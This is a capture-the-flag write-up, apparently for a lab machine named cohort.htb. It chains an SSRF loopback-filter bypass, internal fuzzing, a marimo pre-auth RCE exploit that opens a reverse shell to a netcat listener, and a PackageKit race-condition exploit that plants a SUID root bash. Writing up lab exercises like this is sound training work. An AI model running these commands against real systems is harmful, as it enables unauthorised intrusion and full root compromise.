## Scenario

Access via: `10.129.216.199`

## Initial Reconnaissance

I started with a full TCP port sweep across every port rather than just the default top 1000, since the box could be running something on a non-standard port.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.129.216.199 -p- -T4                 
[sudo] password for —REDACTED—: 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-23 23:38 +0200
Nmap scan report for 10.129.216.199
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 21.87 seconds
```

With only 22, 80 and 443 open, I followed up with a version and script scan against just those three ports.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.129.216.199 -p22,80,443 -sV -sC
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-23 23:41 +0200
Nmap scan report for 10.129.216.199
Host is up (0.034s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp  open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://cohort.htb/
443/tcp open  ssl/http nginx 1.24.0 (Ubuntu)
| tls-alpn:
|   http/1.1
|   http/1.0
|_  http/0.9
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.24.0 (Ubuntu)
| ssl-cert: Subject: commonName=cohort.htb/organizationName=Cohort Analytics
| Subject Alternative Name: DNS:cohort.htb, DNS:*.cohort.htb
| Not valid before: 2026-06-01T18:47:07
|_Not valid after:  2126-05-08T18:47:07
|_http-title: Did not follow redirect to https://cohort.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.37 seconds
```

This confirmed nginx 1.24.0 on Ubuntu fronting both HTTP and HTTPS, with port 80 redirecting to `https://cohort.htb/`, and the TLS certificate naming `cohort.htb` and the wildcard `*.cohort.htb`—a sign that subdomains were going to matter later. Port 80 redirecting meant the hostname needed to resolve, so it went into `/etc/hosts`.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo -e '10.129.216.199\tcohort.htb' | sudo tee -a /etc/hosts
10.129.216.199	cohort.htb

┌──(—REDACTED—㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
10.129.216.199	cohort.htb
```

## Web Enumeration



With the hostname resolving, I had a look at what the site was running and what it was offering. Wappalyzer confirmed the same nginx/Ubuntu stack nmap had already shown.





The page source didn't give anything away directly, but it pointed at `/assets/app.js`, which was minified and obfuscated. It was still findable and beautifiable from the browser's dev tools under Sources, but not really readable. 



I ran feroxbuster against the site to look for anything else, but it came back with nothing. Clicking "Open Client Insights" went to `/portal.html`.



## Server-Side Request Forgery

The portal form fetches a URL on the server's behalf and validates the response, which looked like an SSRF candidate. The notes next to the form claimed internal and loopback addresses were rejected, so I wanted to see whether that actually held.

`http://127.0.0.1` was blocked as expected:



Trying other ways of writing the loopback address, `http://127.1` got through the filter:



With a working loopback bypass, I captured the validate request and copied it as curl, then used that as the base for an ffuf job to see what else the backend could reach.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'https://cohort.htb/api/validate' -X POST -H 'Content-Type: application/json' -d '{"url":"http://127.1/FUZZ","format":"csv"}' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c -fs 1077

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.3.0
________________________________________________

 :: Method           : POST
 :: URL              : https://cohort.htb/api/validate
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"url":"http://127.1/FUZZ","format":"csv"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1077
________________________________________________

assets                  [Status: 200, Size: 308, Words: 18, Lines: 1, Duration: 144ms]
status                  [Status: 200, Size: 548, Words: 17, Lines: 1, Duration: 101ms]
api                     [Status: 200, Size: 192, Words: 20, Lines: 1, Duration: 1414ms]
```

That turned up `assets`, `status` and `api` as reachable localhost paths. `status` looked worth reading first.

`http://127.1/status`

```json
{"service":"cohort-edge","status":"ok","generated_by":"nginx","upstreams":[{"name":"marketing","host":"cohort.htb","root":"/var/www/cohort"},{"name":"insights-api","host":"cohort.htb","path":"/api/","target":"127.0.0.1:5000"},{"name":"notebooks","host":"nb-1be3782a8afd3ad5.cohort.htb","target":"127.0.0.1:8888","note":"internal analyst workspace, not for external use"}]}
```

That laid out nginx's own upstream map: the marketing site, an insights API on `127.0.0.1:5000`, and—more interesting—a "notebooks" upstream on `127.0.0.1:8888`, served externally via a separate hostname, `nb-1be3782a8afd3ad5.cohort.htb`, and explicitly noted as "internal analyst workspace, not for external use". That hostname went into `/etc/hosts` alongside the existing entry.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.129.216.199	cohort.htb nb-1be3782a8afd3ad5.cohort.htb
```

## Pivoting to the Internal Notebook Service

Browsing to `nb-1be3782a8afd3ad5.cohort.htb` directly showed a login portal asking for an "Access Token / Password", with nothing useful in the page source. The tab name revealed that it was marimo. 



With a notebook service identified, I fuzzed further through the same SSRF, this time against port 8888.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'https://cohort.htb/api/validate' -X POST -H 'Content-Type: application/json' -d '{"url":"http://127.1:8888/api/FUZZ","format":"csv"}' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c -fs 165

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.3.0
________________________________________________

 :: Method           : POST
 :: URL              : https://cohort.htb/api/validate
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"url":"http://127.1:8888/api/FUZZ","format":"csv"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 165
________________________________________________

version                 [Status: 200, Size: 133, Words: 12, Lines: 1, Duration: 56ms]
status                  [Status: 200, Size: 185, Words: 17, Lines: 1, Duration: 92ms]
usage                   [Status: 200, Size: 185, Words: 17, Lines: 1, Duration: 89ms]
```

This surfaced three API paths on the notebook service: `version`, `status` and `usage`. 

## Identifying the Marimo Version

Reading `status` and `usage` through the same validate form both came back with `{"detail":"Authorization header required"}`, but `version` didn't require authentication and gave the marimo version:



With the exact version in hand, I searched for known vulnerabilities in marimo 0.20.4 and got a hit on `CVE-2026-39987`.



The flaw was a pre-authentication remote code execution bug: the `/terminal/ws` WebSocket endpoint never calls `validate_auth()`, so an unauthenticated connection to it can spawn a full PTY shell via `pty.fork()`. `msfconsole` had nothing for it, but `searchsploit` did.

## Exploiting CVE-2026-39987 — Marimo Pre-Auth RCE

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ searchsploit marimo
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Marimo  0.20.4 - RCE                                                                                                                                                                                      | multiple/webapps/52673.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

┌──(—REDACTED—㉿kali)-[~]
└─$ searchsploit -x 52673
  Exploit: Marimo  0.20.4 - RCE
      URL: https://www.exploit-db.com/exploits/52673
     Path: /usr/share/exploitdb/exploits/multiple/webapps/52673.py
    Codes: CVE-2026-39987
 Verified: False
File Type: Python script, ASCII text executabl

┌──(—REDACTED—㉿kali)-[~/marimo poc]
└─$ searchsploit -m 52673.py
  Exploit: Marimo  0.20.4 - RCE
      URL: https://www.exploit-db.com/exploits/52673
     Path: /usr/share/exploitdb/exploits/multiple/webapps/52673.py
    Codes: CVE-2026-39987
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/—REDACTED—/marimo poc/52673.py
```

The script failed to even show its help text at first:

```shell
└─$ python 52673.py --help
  File "/home/—REDACTED—/marimo poc/52673.py", line 2
    Date: August 2nd, 2026
                 ^
SyntaxError: invalid decimal literal
```

The file's author/publish-date header lines at the top weren't actually commented out, so Python tried to parse them as code and choked on the date. I edited the file to comment those lines out, after which it ran properly:

```shell
┌──(—REDACTED—㉿kali)-[~/marimo poc]
└─$ python 52673.py --help
usage: 52673.py [-h] -u URL [-c COMMAND] [--lhost LHOST] [--lport LPORT]

CVE-2026-39987 Exploit for Marimo Pre-Auth RCE

options:
  -h, --help            show this help message and exit
  -u, --url URL         Target URL (e.g., http://localhost:2718)
  -c, --command COMMAND
                        Command to execute (default: id && whoami && hostname)
  --lhost LHOST         Local host for reverse shell (requires --lport)
  --lport LPORT         Local port for reverse shell (requires --lhost)
```

First attempt, pointed at the login page's own URL:

```shell
┌──(—REDACTED—㉿kali)-[~/marimo poc]
└─$ python 52673.py -u 'https://nb-1be3782a8afd3ad5.cohort.htb/auth/login' --lhost —REDACTED— --lport 1234
[+] Connecting to wss://nb-1be3782a8afd3ad5.cohort.htb/auth/login/terminal/ws...
[-] Error: Handshake status 403 Forbidden -+-+- {'server': 'nginx/1.24.0 (Ubuntu)', 'date': 'Mon, 23 Nov 2026 22:59:55 GMT', 'content-type': 'text/plain', 'content-length': '0', 'connection': 'keep-alive'} -+-+- b''
```

Reading through the script, I found it just appends `/terminal/ws` to whatever path it's given in `-u`, so pointing it at `/auth/login` built `/auth/login/terminal/ws` instead of the real endpoint. Once I reran the exploit against the bare hostname with no path, it went through cleanly. 

```shell
┌──(—REDACTED—㉿kali)-[~/marimo poc]
└─$ python 52673.py -u 'https://nb-1be3782a8afd3ad5.cohort.htb' --lhost —REDACTED— --lport 1234
[+] Connecting to wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws...
[+] Executing reverse shell!
[+] Check your netcat listener on port 1234!
```

## Stabilising the Shell and Collecting the User Flag

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [—REDACTED—] from (UNKNOWN) [10.129.216.199] 47582
bash: initialize_job_control: no job control in background: Bad file descriptor
marimo@cohort:~$
```

I checked what was available on the box and upgraded to a real shell:

```shell
marimo@cohort:~$ whoami
whoami
marimo
marimo@cohort:~$ which python
which python
marimo@cohort:~$ which python3
which python3
/usr/bin/python3
marimo@cohort:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
marimo@cohort:~$ ^Z
zsh: suspended  nc -lvnp 1234
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1234

marimo@cohort:~$ export TERM=tmux-256color
marimo@cohort:~$ stty rows 52 cols 236
marimo@cohort:~$
```

Then, within the same directory, I found the user flag.

```shell
marimo@cohort:~$ ls
notebooks  user.txt
marimo@cohort:~$ cat user.txt
—REDACTED—
```

### User Flag

**Answer:** `—REDACTED—`

## Privilege Escalation — CVE-2026-41651 (PackageKit TOCTOU)

I checked `sudo -l`, but it prompted for a password I didn't have. I went through the SUID binaries and found nothing unusual, checked for exploitable capabilities and came up empty, and had no crontab entries to look at either. I then checked for outdated packages.

```shell
marimo@cohort:~/notebooks$ apt list --upgradable
Listing... Done
open-vm-tools/noble-updates 2:13.0.0-2~ubuntu0.24.04.1 amd64 [upgradable from: 2:12.4.5-1~ubuntu0.24.04.1]
packagekit-tools/noble-updates,noble-security 1.2.8-2ubuntu1.5 amd64 [upgradable from: 1.2.8-2ubuntu1.2]
packagekit/noble-updates,noble-security 1.2.8-2ubuntu1.5 amd64 [upgradable from: 1.2.8-2ubuntu1.2]
```

`open-vm-tools` and `packagekit`/`packagekit-tools` were all behind. I searched for known vulnerabilities in the outdated ones and found PackageKit was affected.



`searchsploit` had nothing for it, so I went looking on GitHub instead and found [a PoC for CVE-2026-41651](https://github.com/ashrafzaryouh/CVE-2026-41651).

```shell
┌──(—REDACTED—㉿kali)-[~/marimo poc]
└─$  wget 'https://raw.githubusercontent.com/ashrafzaryouh/CVE-2026-41651/refs/heads/main/CVE-2026-41651.py' -O CVE-2026-41651.py
--2026-11-24 01:23:43--  https://raw.githubusercontent.com/ashrafzaryouh/CVE-2026-41651/refs/heads/main/CVE-2026-41651.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 2606:50c0:8000::154, 2606:50c0:8003::154, 2606:50c0:8002::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|2606:50c0:8000::154|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12647 (12K) [text/plain]
Saving to: ‘CVE-2026-41651.py’

CVE-2026-41651.py             100%[===============================================>]  12.35K  --.-KB/s    in 0.001s

2026-11-24 01:23:44 (18.4 MB/s) - ‘CVE-2026-41651.py’ saved [12647/12647]
```

I served it from Kali and pulled it onto the target over the existing shell:

```shell
┌──(—REDACTED—㉿kali)-[~/marimo poc]
└─$ python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.216.199 - - [24/Nov/2026 01:24:43] "GET /CVE-2026-41651.py HTTP/1.1" 200 -
```

```shell
marimo@cohort:~/notebooks$ wget http://—REDACTED—:8000/CVE-2026-41651.py -O exploit.py
--2026-11-23 23:25:38--  http://—REDACTED—:8000/CVE-2026-41651.py
Connecting to —REDACTED—:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12647 (12K) [text/x-python]
Saving to: ‘exploit.py’

exploit.py                                                 100%[========================================================================================================================================>]  12.35K  --.-KB/s    in 0.04s

2026-11-23 23:25:38 (349 KB/s) - ‘exploit.py’ saved [12647/12647]
```

```shell
marimo@cohort:~/notebooks$ chmod +x exploit.py
```

```shell
marimo@cohort:~/notebooks$ python3 exploit.py
============================================================
  CVE-2026-41651 — Pack2TheRoot => PackageKit TOCTOU Privilege Escalation
  github : https://github.com/0xBlackash/CVE-2026-41651/
  Author : Ashraf Zaryouh / @0xBlackash
============================================================

[+] SUID drop directory: /var/tmp  (no nosuid/noexec)
[+] Package format: DEB
[*] Building test packages...
[+] Dummy pkg:   /tmp/pk-dummy-51904.deb
[+] Payload pkg: /tmp/pk-payload-51904.deb
[+] Payload installs SUID bash to: /var/tmp/.suid_bash

[*] Connecting to system D-Bus...
[*] Creating PackageKit transaction...
[+] Transaction ID: /2_eaedceeb

[*] Firing TOCTOU race (SIMULATE → REAL on same transaction)...
[*] Polling for SUID at /var/tmp/.suid_bash (90s max)...
...
[+] Confirmed: /var/tmp/.suid_bash is SUID root (mode=0o104755)

[+] Dropping to root shell via SUID bash (-p preserves effective UID=0)
[+] --- ROOT SHELL FOLLOWS ---

.suid_bash-5.2#
```

 The script builds a benign dummy `.deb` and a payload `.deb` that installs a SUID root bash, then races a PackageKit D-Bus transaction between its SIMULATE and REAL phases on the same transaction ID so the payload package gets installed for real while PackageKit still believes it's only simulating, dropping a SUID root `bash` into `/var/tmp`.

## Root

```shell
.suid_bash-5.2# whoami
root
```

```shell
.suid_bash-5.2# cd /root
.suid_bash-5.2# ls
root.txt
.suid_bash-5.2# cat root.txt
—REDACTED—
```

**Answer:** `—REDACTED—`